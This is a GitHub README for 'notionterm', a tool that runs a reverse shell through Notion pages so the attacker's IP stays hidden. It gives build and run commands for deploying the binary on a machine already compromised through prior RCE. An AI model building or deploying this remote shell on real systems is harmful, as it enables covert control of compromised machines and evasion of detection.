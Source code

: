 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>

<a href="https://github.com/spencerpauly/awesome-notion"><img src="https://awesome.re/mentioned-badge.svg"></a>

</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)


---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo/Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>
</div>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication from the target to the notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>


## TL;DR

Learn command and flags is too boring: **Use `wrap-notionterm.sh`**


## Quickstart

### 🏗️ Set-up
1. Create a page and give to the integration API key the permissions to have page write access
2. Build `notionterm` and transfer it on target machine (see [Build](#build))

### 👟 Run

There are 3 main ways to run `notionterm`:

<details>
  <summary><b>"normal" mode</b><br><i>Get terminal, stop/unstop it, etc...</i></summary>
<code>
notionterm [flags]
</code><br>
Start the shell with the button widget: turn <code>ON</code>, do you reverse shell stuff, turn <code>OFF</code> to pause, turn <code>ON</code> to resume etc...
</details>

<details>
  <summary><b>"server" mode</b><br><i>Ease notionterm embedding in any page</i></summary>
<code>
notionterm --server [flags]
</code><br>
Start a shell session in any page by creating an embed block with URL containing the page id <i>(<code>CTRL+L</code>to get it)</i>: <code>https://[TARGET_URL]/notionterm?url=[NOTION_PAGE_ID]</code>.
</details>


<details>
  <summary><b><code>light</code> mode</b><br><i>Only perform HTTP traffic from target → notion</i></summary>
<code>
notionterm light [flags]
</code>
</details>

## Build

As `notionterm` is aimed to be run on target machine it must be built to fit with it.

Thus set env var to fit with the target requirement:
```shell
GOOS=[windows/linux/darwin]
```

### Simple build
```shell
git clone https://github.com/ariary/notionterm.git && cd notionterm
GOOS=$GOOS go build notionterm.go
```

You will need to set API key and notion page URL using either env var (`NOTION_TOKEN` & `NOTION_PAGE_URL`) or flags (`--token` & `--page-url`)

### "All-inclusive" build
Embed directly the notion integration API token and notion page url in the binary. *⚠️ everybody with access to the binary can retrieved the token. For security reason don't share it and remove it after use.*

Set according env var:
```shell
export NOTION_PAGE_URL=[NOTION_PAGE_URL]
export NOTION_TOKEN=[INTEGRATION_NOTION_TOKEN]
```
And build it:
```
git clone https://github.com/ariary/notionterm.git && cd notionterm
./static-build.sh $NOTION_PAGE_URL $NOTION_TOKEN $GOOS
```
